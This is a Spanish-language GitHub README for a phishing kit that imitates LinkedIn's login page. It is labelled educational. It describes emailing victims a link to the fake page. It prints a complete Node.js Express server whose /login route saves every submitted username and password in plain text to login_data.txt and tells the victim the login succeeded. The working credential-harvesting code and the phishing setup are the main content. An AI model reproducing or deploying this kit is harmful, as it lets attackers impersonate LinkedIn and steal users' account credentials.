 # Emulador de Página de Inicio de Sesión de LinkedIn

Este proyecto es una página web que emula la página de inicio de sesión de LinkedIn, con fines educativos. Su propósito es demostrar cómo se pueden realizar ataques de phishing mediante el uso de una página web falsa para recolectar credenciales de usuario.

## Descripción

La aplicación web replica la página de inicio de sesión de LinkedIn (https://www.linkedin.com/login). El vector de ataque inicial es enviar un correo electrónico que contiene un enlace a esta página falsa, con el fin de que los usuarios ingresen su correo electrónico y contraseña. 

Los datos ingresados en el formulario de inicio de sesión se almacenan en un archivo de texto en el servidor llamado `login_data.txt`. Este archivo registra el nombre de usuario y la contraseña ingresada por el usuario.

## Estructura del Proyecto

- **`public/`**: Carpeta que contiene los archivos estáticos, como el HTML y las imágenes.
- **`login_data.txt`**: Archivo en el que se almacenan los datos ingresados por los usuarios.
- **`server.js`**: Código del servidor en Node.js que maneja las solicitudes de inicio de sesión y almacena los datos en `login_data.txt`.

## Código del Servidor

El código del servidor se encuentra en `server.js` y utiliza los siguientes módulos de Node.js:

- **`express`**: Framework para construir la aplicación web.
- **`body-parser`**: Middleware para analizar cuerpos de solicitudes HTTP.
- **`fs`**: Módulo para manejar operaciones de archivos.
- **`path`**: Módulo para manejar y resolver rutas de archivos.

### Código del Servidor

```javascript
// Importa los módulos necesarios
const express = require('express');
const bodyParser = require('body-parser');
const fs = require('fs');
const path = require('path');

// Crea una instancia de la aplicación Express
const app = express();
const port = 3005;

// Configura el middleware para analizar cuerpos de solicitudes en formato JSON
app.use(bodyParser.json());

// Configura el middleware para servir archivos estáticos desde la carpeta 'public'
app.use(express.static('public'));

// Define una ruta POST para el endpoint '/login'
app.post('/login', (req, res) => {
    const { username, password } = req.body;

    // Validación simple
    if (!username || !password) {
        return res.status(400).json({ success: false, message: 'Correo electrónico y contraseña son requeridos.' });
    }

    // Ejemplo de escritura en un archivo (para pruebas)
    const filePath = path.join(__dirname, 'login_data.txt');
    const logEntry = `Username: ${username}, Password: ${password}\n`;
    fs.appendFile(filePath, logEntry, (err) => {
        if (err) {
            console.error('Error al guardar los datos:', err);
            return res.status(500).json({ success: false, message: 'Error al procesar la solicitud.' });
        }
        console.log('Datos guardados en el archivo.');
        res.json({ success: true, message: 'Inicio de sesión exitoso' });
    });
});

// Configura el servidor para escuchar en el puerto definido
app.listen(port, () => {
    console.log(`Servidor escuchando en http://localhost:${port}`);
});
